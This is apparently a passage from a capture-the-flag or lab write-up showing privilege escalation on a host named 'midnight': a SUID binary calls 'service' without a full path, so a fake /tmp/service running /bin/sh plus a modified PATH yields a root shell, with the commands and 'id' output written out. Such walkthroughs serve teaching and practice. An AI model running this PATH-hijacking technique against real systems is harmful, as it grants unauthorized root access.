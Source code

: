 ## Exploit /usr/bin/status

Running _strings_ on the _/usr/bin/status_ binary we can see that _service ssh status_ is being called.

Since the binary is calling _service_ without specifying the path we can create our own malicious _service_ binary.

We can then execute the malicious _service_ binary by change the PATH variable to first execute binaries in the _/tmp_ directory.

```bash
jose@midnight:/var/www/html/wordpress$ echo "/bin/sh" > /tmp/service
jose@midnight:/var/www/html/wordpress$ chmod +x /tmp/service
jose@midnight:/var/www/html/wordpress$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
jose@midnight:/var/www/html/wordpress$ export PATH=/tmp/:$PATH
jose@midnight:/var/www/html/wordpress$ /usr/bin/status

# Show we are now root
> id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)

```
